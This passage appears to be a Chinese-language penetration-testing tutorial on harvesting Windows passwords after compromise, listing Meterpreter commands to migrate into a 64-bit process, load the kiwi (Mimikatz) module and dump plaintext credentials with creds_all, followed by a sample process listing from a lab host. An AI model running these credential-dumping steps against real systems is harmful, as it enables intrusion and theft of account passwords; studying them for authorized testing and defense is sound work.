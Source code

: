 

## 远程登陆

### 获取密码

#### 法一：MSF

> ps 					# 查看 lsm.exe 进程的 PID
>
> migrate 512	*# 默认是加载32位的系统，所以如果目标主机是64位系统的话,需要将进程迁移到一个64位程序的进程中*
>
> load kiwi		*# 加载kiwi模块* 
>
> creds_all		*# 列举系统中的明文密码*



```bash
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System             x64   0
 244   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 348   328   csrss.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 396   508   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
 404   396   csrss.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 412   328   wininit.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 448   396   winlogon.exe       x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 508   412   services.exe       x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 516   412   lsass.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 524   412   lsm.exe            x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 612   508   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
 692   508   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
 792   508   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 832   508   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 860   508   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
 984   832   dwm.exe            x64   1        GOD\Administrator             C:\Windows\system32\Dwm.exe
 992   508   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
 1140  508   spoolsv.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1184  508   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
```